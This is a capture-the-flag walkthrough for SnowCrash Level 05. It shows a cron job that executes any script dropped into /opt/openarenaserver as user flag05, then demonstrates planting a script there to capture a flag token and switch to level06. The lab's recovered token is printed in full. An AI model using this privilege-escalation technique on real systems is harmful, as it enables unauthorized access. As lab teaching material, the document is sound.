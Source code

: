 # Level 05

- We login as user level05, we can see a notification: `You have new mail`.
```
level05@SnowCrash:~$ ls /var/mail
level05
```

```
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

- It looks like a [Cron](https://en.wikipedia.org/wiki/Cron) instruction. It indicates that every two minutes, the command `/usr/sbin/openarenaserver` will be executed by user flag05.
```
level05@SnowCrash:~$ ls -l /usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
```

- Let's `cat /usr/sbin/openarenaserver`:
```shell
#!/bin/sh

for i in /opt/openarenaserver/* ; do
 (ulimit -t 5; bash -x "$i")
 rm -f "$i"
done
```


- This shell script runs `bash -x` on all the items present in the directory `/opt/openarenaserver/`, with a fixed limit of 5 seconds for each execution. Afterward, the respective item is deleted, so:
```
level05@SnowCrash:~$ echo "getflag > /tmp/flag2level06" > /opt/openarenaserver/exploit.sh
```

```
level05@SnowCrash:~$ chmod +x /opt/openarenaserver/exploit.sh
```

```
level05@SnowCrash:~$ cat /tmp/flag2level06
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

```
level05@SnowCrash:~$ su level06
Password:viuaaale9huek52boumoomioc
level06@SnowCrash:~$
```